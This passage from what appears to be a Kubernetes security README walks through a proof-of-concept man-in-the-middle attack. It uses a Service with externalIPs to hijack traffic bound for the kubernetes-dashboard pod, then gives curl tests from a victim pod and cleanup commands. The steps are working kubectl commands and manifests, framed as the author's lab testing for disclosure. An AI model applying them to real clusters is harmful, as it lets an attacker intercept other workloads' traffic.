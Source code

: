 ```
kubectl delete -n kubeproxy-mitm svc/mitm-pod-lb
```

### 3b) k8s pod traffic interception using service type ClusterIP + externalIPs

Find a service to attack + its endpoints, in my testing I chose kubernetes-dashboard
```
kubectl get -n kube-system svc/kubernetes-dashboard
# NAME                   TYPE        CLUSTER-IP      EXTERNAL-IP   PORT(S)   AGE
# kubernetes-dashboard   ClusterIP   10.233.36.240   <none>        443/TCP   42m

kubectl get -n kube-system endpoints kubernetes-dashboard
# NAME                   ENDPOINTS           AGE
# kubernetes-dashboard   10.233.115.2:8443   9h
```
Deploy the MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-pod-eip
  namespace: kubeproxy-mitm
spec:
  ports:
  - name: https
    port: 443
    protocol: TCP
    targetPort: 8443
  - name: https2
    port: 8443
    protocol: TCP
    targetPort: 8443
  selector:
    app: echoserver
  type: ClusterIP
  externalIPs:
    - 10.233.115.2
EOF
```
Test if MITM works
```
# node -> clusterIP
curl -sv https://10.233.36.240 -k
# pod -> clusterIP
kubectl exec victim-client -- curl -sv https://10.233.36.240 -k
# node -> endpoint
curl -sv https://10.233.115.2:8443 -k
# pod -> endpoint
kubectl exec victim-client -- curl -sv https://10.233.115.2:8443 -k
```
Cleanup
```
kubectl delete -n kubeproxy-mitm svc/mitm-pod-eip
```
